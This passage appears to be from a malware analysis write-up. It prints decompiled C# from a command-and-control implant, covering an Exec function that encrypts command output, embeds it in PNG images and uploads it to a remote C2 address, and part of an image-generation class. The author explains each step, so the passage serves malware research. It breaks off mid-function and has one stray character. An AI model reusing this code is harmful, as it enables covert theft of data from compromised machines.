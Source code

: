 - Notice `Malformed` , lets go back to the source : 

```c#
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
    {
        if (string.IsNullOrEmpty(key))
        {
            key = pKey;
        }
        string cookie = Encryption(key, taskId);
        string text = "";
        text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
        byte[] cmdoutput = Convert.FromBase64String(text);
        byte[] imgData = ImgGen.GetImgData(cmdoutput);
        int num = 0;
        while (num < 5)
        {
            num++;
            try
            {
                GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
                num = 5;
            }
            catch
            {
            }
        }
    }
```

- Exec function is responsible for handling command output and PNG uploading
- First it creates an encrypted cookie which contains task ID
- Then it encrypts the command output
- Decodes the base64 cipher string and calls `ImgGen` function
- Then it runs a loop to upload the PNG, if any error occurs then the loop increments and upload is re attempted until file is uploaded perfectly
- Now lets look into `ImgGen` :

```c#
internal static class ImgGen
    {
        private static Random _rnd = new Random();
        private static Regex _re = new Regex("(?<=\")[^\"]*(?=\")|[^\" ]+", (RegexOptions)8);
        private static List<string> _newImgs = new List<string>();
        internal static void Init(string stringIMGS)
        {
            IEnumerable<string> enumerable = Enumerable.Select<Match, string>(Enumerable.Cast<Match>((IEnumerable)_re.Matches(stringIMGS.Replace(",", ""))), (Func<Match, string>)((Match m) => ((Capture)m).get_Value()));
            enumerable = Enumerable.Where<string>(enumerable, (Func<string, bool>)((string m) => !string.IsNullOrEmpty(m)));
            _newImgs = Enumerable.ToList<string>(enumerable);
        }
        private static string RandomString(int length)
        {
            return new string(Enumerable.ToArray<char>(Enumerable.Select<string, char>(Enumerable.Repeat<string>("...................@..........................Tyscf", length), (Func<string, char>)((string s) => s[_rnd.Next(s.Length)]))));r
        }
        internal static byte[] GetImgData(byte[] cmdoutput)
        {
            int num = 1500;
            int num2 = cmdoutput.Length + num;
            string s = _newImgs[new Random().Next(0, _newImgs.Count)];
```